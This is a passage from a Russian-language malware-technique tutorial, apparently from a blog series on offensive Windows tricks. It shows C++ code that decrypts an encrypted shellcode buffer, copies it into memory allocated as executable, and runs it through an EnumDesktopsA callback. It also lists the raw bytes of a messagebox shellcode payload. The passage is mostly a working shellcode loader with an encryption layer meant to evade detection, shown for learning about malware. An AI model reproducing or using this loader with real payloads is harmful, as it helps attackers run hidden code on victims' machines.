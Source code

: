 ```cpp
  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как видите, для запуска полезной нагрузки я использовал трюк [EnumDesktopsA](https://cocomelonc.github.io/malware/2024/06/12/malware-trick-39.html).

Также, как обычно, для простоты использовал полезную нагрузку meow-meow messagebox:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

